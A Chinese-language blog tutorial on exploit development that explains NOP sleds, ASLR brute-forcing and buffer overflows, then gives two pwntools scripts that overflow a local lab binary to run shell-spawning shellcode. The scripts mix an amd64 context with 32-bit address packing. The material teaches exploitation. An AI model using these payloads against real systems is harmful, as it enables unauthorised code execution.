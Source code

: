 ```yaml
---
title: 'NOPs'
date: '2023-08-08'
lastmod: '2023-08-20'
tags: ['PWN', 'Stack']
draft: false
summary: '更可靠的 shellcode'
authors: ['default']
---
```


由于在调试工具里得到的返回地址和正常运行时并不一致（这是运行时环境变量等因素有所不同造成的），
所以这种情况下我们只能得到大致但不确切的 shellcode 起始地址，解决办法是在溢出 Padding 前面填充
若干长度的 NOP 。

NOP，无操作（**N**o **OP**eration）指令的作用正如其名：什么也不做。所以在运行到 NOP 指令的时候
只会使程序计数器加一，而不会发生其它的事情。这是一种可以破解栈随机化的缓冲区溢出攻击方式。
攻击者通过填充字符串注入攻击代码，在实际的攻击代码前注入很长的 NOP 指令序列，只要程序的
控制流指向该序列任意一处，都可以无副作用地跳转到 shellcode 的起始处，这允许我们有更大的
误差范围，因为向前或向后移动几个字节不会影响程序的正常运行。这与直接运行 shellcode 具有
相同的效果。这种 NOP Padding 通常被称为 NOP Slide 或 NOP Sled（俗称「滑雪橇」），因为 EIP
本质上是沿着它们 Slide 的。这样我们就可以通过增加 NOP 填充来试验 shellcode 的起始地址。NOP Sled
可以帮助攻击者提高访问到自己的攻击代码的概率。

[地址空间配置随机化（ASLR）](https://zh.wikipedia.org/wiki/%E4%BD%8D%E5%9D%80%E7%A9%BA%E9%96%93%E9%85%8D%E7%BD%AE%E9%9A%A8%E6%A9%9F%E8%BC%89%E5%85%A5) 指程序运行时栈的起始地址是随机的，所以程序中存放各函数返回地址
的地址也会发生对应的改变。可防止运行相同程序的相同系统因易预测栈地址而被攻击。

由于栈地址在一定范围的随机性，攻击者不能够知道攻击代码注入的地址，而要执行攻击代码需要将函数
的返回地址更改为攻击代码的地址（可以通过缓冲区溢出的方式篡改函数的返回地址）。所以，只能在一
定范围内（栈随机导致攻击代码地址一定范围内随机）枚举攻击代码的地址（有依据的猜）。

:::info
为了尝试破解 $2^{23}$ 的随机化，则需要枚举 $2^{23}$ 个返回地址。而使用 NOP Sled 的方式，
若枚举一个 $2^{8}$ Bytes 的 NOP sled，则只需要枚举 $2^{23} / (2^{8} + 1)$ 个返回地址
即可，因为每次枚举出的地址只要是 $2^{8}$ 中的之一就可以。（攻击代码本身有一个起始地址，
所以为 $255 + 1$）
:::

不用 NOP Sled，函数返回地址 ---> 攻击代码<br />
使用 NOP Sled，函数返回地址 ---> NOP 序列（顺序执行）直到攻击代码地址

在 intel x86 汇编中，NOP 指令是 `\x90` 。

NOP 指令是 `XCHG EAX, EAX` 的别名（32 bit 系统中），它实际上什么也不做。你可以在这个
[问题](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions) 上阅读更多相关信息。

## 0x01 更新 Exploit

现在可以对我们的 EXP 进行一些细微的更改，以完成两件事：

- 添加大量 NOP Padding
- 调整我们的返回地址以指向 NOP 的中间而不是缓冲区的开头

:::warning
确保 ASLR 仍处于禁用状态。你可能需要重新调整之前的 EXP，因为缓冲区位置可能会有所不同。
:::

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240             # 构建 NOPs
payload += asm(shellcraft.sh())     # 构建 shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664 + 120)    # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

:::warning
值得一提的是：带有 NOP 的 shellcode 并不是万无一失的。如果出现用 NOP Sled 造成的
意外错误，但 shellcode 在使用 NOP Sled 之前可以正常工作，请尝试减少 NOP Sled 的
长度，因为它可能会篡改栈上的其它内容。
:::

注意：NOP 在某些架构中不是 `\x90` 。如果你需要其他架构的 NOP，可以使用 pwntools：

```python
nop = asm(shellcraft.nop())
```

## 0x02 最终 Exploit

```python:exp.py
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.nop()) * 240  # 构建 NOPs
payload += asm(shellcraft.sh())        # 构建 shellcode
payload = payload.ljust(312, b'A')     # 溢出 Padding
payload += p32(0xffffd664 + 120)       # 缓冲区地址 + 一半 NOPs 长度

p.sendline(payload)

p.interactive()
```

